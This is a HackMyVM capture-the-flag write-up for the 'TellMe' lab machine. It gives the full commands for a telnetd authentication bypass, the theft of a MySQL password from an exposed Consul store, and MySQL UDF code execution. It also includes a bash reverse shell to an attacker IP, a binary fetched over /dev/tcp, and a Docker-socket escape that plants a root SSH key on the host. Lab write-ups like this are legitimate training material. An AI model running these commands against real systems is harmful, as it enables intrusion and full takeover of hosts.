

# HackMyVM — TellMe

**Difficulty:** Medium  
**OS:** Linux (Ubuntu 24.04 / Docker containers)  
**Author:** shalopai  
**Tags:** `telnet auth bypass`, `CVE-2026-24061`, `Consul KV`, `MySQL UDF`, `Docker socket escape`

---

## Summary

The machine exposes an unauthenticated Consul KV store leaking a MySQL root password, and a telnetd service vulnerable to CVE-2026-24061 (authentication bypass via `USER="-f root"`). After landing on the `entry_node` container as root, internal network scanning reveals a MySQL service in another container. MySQL is exploited via UDF injection to get a reverse shell as the `mysql` user, who is a member of the `docker_host` group. The Docker socket is abused to mount the host filesystem inside a new container, inject an SSH public key, and SSH into the actual host as root.

**User flag:** `e34a4e9c52fdcf32cc9255cfa6d4087a`  
**Root flag:** `473392cd7b2b5ecb49f0f88b61d2ce7e`

---

## 1. Enumeration

### Port Scan

```bash
nmap -sV -sC -p- -T4 --min-rate 5000 172.20.10.3
```

**Results:**

| Port | Service | Version |
|------|---------|---------|
| 22/tcp | SSH | OpenSSH 10.0 |
| 80/tcp | HTTP | Apache httpd 2.4.66 (Unix) |
| 2323/tcp | Telnet | — |
| 8500/tcp | HTTP | Golang net/http (Consul by HashiCorp) |

The notable findings:
- **Port 2323** — non-standard telnet port, interesting for auth bypass CVEs.
- **Port 8500** — Consul UI exposed with `/` disallowed in `robots.txt`; redirects to `/ui/`.

### Consul KV Store — Credential Disclosure

Browsing to `http://172.20.10.3:8500/ui/` reveals a Consul cluster UI with no authentication. Navigating the Key/Value store exposes a stored MySQL root password:

```
http://172.20.10.3:8500/ui/dc1/kv/mysql/config/root_pass/edit
```

**Value:** `TellMeYouLoveMe`

---

## 2. Initial Access — CVE-2026-24061 (Telnetd Auth Bypass)

**CVE-2026-24061** is a critical (CVSS 9.8) authentication bypass in `GNU inetutils-telnetd`. It abuses the `USER` environment variable to pass `-f root` as a PAM username, which skips authentication entirely and drops a root shell.

### First attempt — Python exploit (unstable shell)

```bash
python3 '/home/shalopai/Desktop/exp.py' 172.20.10.3 2323
```

The PoC script connects and sends `USER='-f root'` during the telnet negotiation, triggering the bypass. However the resulting shell was unstable.

### Stable shell — native telnet client

```bash
USER="-f root" telnet -a 172.20.10.3 2323
```

The `-a` flag tells the telnet client to auto-login using the `USER` environment variable. This delivers a clean, fully interactive root shell on `entry_node`.

```
root@entry_node:~# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 3. User Flag

```bash
ls /mnt
cat /mnt/user.txt
```

```
e34a4e9c52fdcf32cc9255cfa6d4087a
```

---

## 4. Internal Network Recon

The compromised host has no `ip` command. Check `/etc/hosts` for the internal subnet:

```bash
cat /etc/hosts
```

```
172.20.0.10     entry_node
```

Download **fscan** from the attacker's HTTP server using a pure bash TCP socket trick (no `wget` initially available):

```bash
exec 3<>/dev/tcp/172.20.10.4/8080
echo -e "GET /fscan_2.2.2_linux_x64 HTTP/1.0\r\nHost: 172.20.10.4\r\n\r\n" >&3
cat <&3 | sed '1,/^\r$/d' > /tmp/fscan
chmod +x /tmp/fscan
```

> The first attempt without stripping HTTP headers resulted in a corrupt binary. The `sed '1,/^\r$/d'` strips everything up to and including the blank line terminating the HTTP header, leaving only the binary payload.

### Scan the internal /24

```bash
./fscan -h 172.20.0.0/24
```

**Key discoveries:**

| Host | Port | Service | Note |
|------|------|---------|------|
| 172.20.0.1 | 22 | SSH | OpenSSH 10.0 (host/gateway) |
| 172.20.0.1 | 80 | HTTP | Apache 2.4.66 |
| 172.20.0.1 | 8500 | HTTP | Consul |
| 172.20.0.10 | 23 | Telnet | entry_node — CVE-2026-24061 confirmed |
| 172.20.0.20 | 8500 | HTTP | Second Consul instance |
| 172.20.0.30 | 3306 | MySQL | v5.7.44 (Genetec Security Center) |

Fscan also automatically confirmed `[!] Telnet 172.20.0.10:23 CVE-2026-24061` for the internal address. The MySQL service at `172.20.0.30` is the next target.

---

## 5. Lateral Movement — MySQL UDF Code Execution

### Connect to MySQL

The password recovered from Consul works:

```bash
mysql -h 172.20.0.30 -u root -p
# password: TellMeYouLoveMe
```

Verify privileges and configuration:

```sql
SELECT USER(), CURRENT_USER();
SHOW VARIABLES LIKE 'plugin_dir';
SHOW VARIABLES LIKE 'secure_file_priv';
SELECT * FROM mysql.func;
```

**Results:**
- Running as `root@%` (full privileges from any host).
- `plugin_dir` = `/usr/lib64/mysql/plugin/`
- `secure_file_priv` = `` (empty — no restriction on `INTO DUMPFILE`)
- `mysql.func` is empty — no UDFs yet.

### Upload the UDF shared library

Install `wget` on entry_node to grab the `.so` file (alternatively, the hex blob method was used):

```bash
# on entry_node
apt-get install -y wget
```

The UDF library (`lib_mysqludf_sys_64.so`) was converted to a hex string and written directly to the MySQL plugin directory:

```sql
-- (hex string trimmed for brevity — full blob used in exploit)
SELECT UNHEX('7f454c46...') INTO DUMPFILE '/usr/lib64/mysql/plugin/udf_sys.so';
```

> The hex blob was generated on the attacker machine with:
> ```bash
> xxd -p /usr/share/metasploit-framework/data/exploits/mysql/lib_mysqludf_sys_64.so | tr -d '\n'
> ```

### Register UDF functions

```sql
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'udf_sys.so';
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf_sys.so';
```

Verify code execution:

```sql
SELECT sys_exec('id');
SELECT sys_eval('id');
-- Returns hex-encoded: uid=999(mysql) gid=999(mysql) groups=999(mysql),103(docker_host)
```

### Reverse shell

On the attacker machine:

```bash
nc -lvnp 4444
```

Trigger the shell from MySQL:

```sql
SELECT sys_exec('bash -i >& /dev/tcp/172.20.10.4/4444 0>&1');
```

Shell received:

```
bash-4.2$ id
uid=999(mysql) gid=999(mysql) groups=999(mysql),103(docker_host)
```

### Stabilise the TTY

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
```

---

## 6. Privilege Escalation — Docker Socket Escape

The `mysql` user is in the **`docker_host`** group, which grants read/write access to `/var/run/docker.sock`.

```bash
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker_host 0 Nov 13 01:17 /var/run/docker.sock
```

### List available images

```bash
curl --unix-socket /var/run/docker.sock http://localhost/images/json
```

Three images are present: `telnet-server:latest`, `hashicorp/consul:1.15`, and **`mysql:5.7`** — the image we're already running inside. This can be reused to mount the host root filesystem.

### Prepare attacker SSH key

On the attacker machine:

```bash
ssh-keygen -t ed25519
cat ~/.ssh/id_ed25519.pub
# ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE5kCXn38E7kHt2InX/3u4qixZiTb6IZYuT09GMQYaa0 shalopai@kali
```

### Create escape container

```bash
curl --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/containers/create?name=escape" \
  -H "Content-Type: application/json" \
  -d '{
    "Image":"mysql:5.7",
    "Cmd":["sh","-c","mkdir -p /host/root/.ssh && echo \"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE5kCXn38E7kHt2InX/3u4qixZiTb6IZYuT09GMQYaa0 shalopai@kali\" >> /host/root/.ssh/authorized_keys && chmod 700 /host/root/.ssh && chmod 600 /host/root/.ssh/authorized_keys"],
    "HostConfig":{
      "Binds":["/:/host"],
      "Privileged":true
    }
  }'
```

This creates a container with:
- The **entire host filesystem** mounted at `/host`.
- **Privileged mode** enabled.
- A one-shot command that injects our SSH public key into `/root/.ssh/authorized_keys` on the **host**.

### Start the container

```bash
curl --unix-socket /var/run/docker.sock \
  -X POST http://localhost/containers/escape/start
```

### SSH into the host as root

```bash
ssh root@172.20.10.3
```

```
              _                          
__      _____| | ___ ___  _ __ ___   ___ 
\ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \
 \ V  V /  __/ | (_| (_) | | | | | |  __/
  \_/\_/ \___|_|\___\___/|_| |_| |_|\___|

Tellme:~#
```

---

## 7. Root Flag

```bash
ls
cat root.txt
```

```
473392cd7b2b5ecb49f0f88b61d2ce7e
```

---

## Attack Chain Summary

```
[Attacker]
    │
    ├─ Consul UI (8500) ──► MySQL password: TellMeYouLoveMe
    │
    └─ CVE-2026-24061 telnetd (2323) ──► root@entry_node (172.20.0.10)
                                              │
                                              └─ fscan → found MySQL at 172.20.0.30
                                                              │
                                                              └─ MySQL UDF injection ──► shell as mysql
                                                                                              │
                                                                                              └─ docker group → docker.sock
                                                                                                                      │
                                                                                                                      └─ mount /:/host → SSH key injection
                                                                                                                                              │
                                                                                                                                              └─ SSH root@172.20.10.3 ──► root flag
```

---

## Tools Used

| Tool | Purpose |
|------|---------|
| nmap | Port scanning & service detection |
| Consul UI | Credential discovery (MySQL password) |
| CVE-2026-24061 PoC / telnet | Initial access via telnetd auth bypass |
| fscan 2.2.2 | Internal network discovery |
| MySQL client | Direct DB access |
| lib_mysqludf_sys | UDF-based OS command execution |
| curl (unix socket) | Docker API interaction |
| ssh-keygen | SSH key generation for host escape |
